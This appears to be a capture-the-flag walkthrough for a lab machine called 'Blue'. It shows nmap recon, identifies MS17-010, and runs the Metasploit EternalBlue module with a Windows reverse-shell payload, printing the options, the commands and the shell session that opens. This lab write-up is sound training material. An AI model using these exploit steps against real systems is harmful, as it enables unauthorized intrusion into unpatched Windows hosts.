 # Blue

# Task1 Recon

How many ports are open with a port number under 1000?
→ 3

```
root@ip-10-10-238-101:~# nmap 10.10.20.71

Starting Nmap 7.60 ( https://nmap.org ) at 2022-06-06 15:14 BST
Nmap scan report for ip-10-10-20-71.eu-west-1.compute.internal (10.10.20.71)
Host is up (0.00068s latency).
Not shown: 991 closed ports
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49158/tcp open  unknown
49160/tcp open  unknown
MAC Address: 02:F6:A4:D1:34:B7 (Unknown)
```

What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)
→　MS17-010

https://isc.sans.edu/forums/diary/ETERNALBLUE+Windows+SMBv1+Exploit+Patched/22304/

# Task2 Gin Access

Exploit the machine and gain a foothold.

Start Metasploit


Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)
→　exploit/windows/smb/ms17_010_eternalblue

https://infosecwriteups.com/cybertalent-exploiting-ms17-010-eternal-blue-on-a-remote-server-mature-blue-lab-18dee68da431

Show options and set the one required value. What is the name of this value? (All caps for submission)
→　RHOSTS

```
msf5 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.238.101    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs
```




```
msf5 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/shell/reverse_tcp
payload => windows/x64/shell/reverse_tcp
```

```
msf5 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 10.10.20.71
RHOSTS => 10.10.20.71
'''

'''
exploit -z
```

```
[*] Command shell session 1 opened (10.10.238.101:4444 -> 10.10.20.71:49216) at 2022-06-06 15:46:46 +0100
[+] 10.10.20.71:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.20.71:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.20.71:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] Session 1 created in the background.

```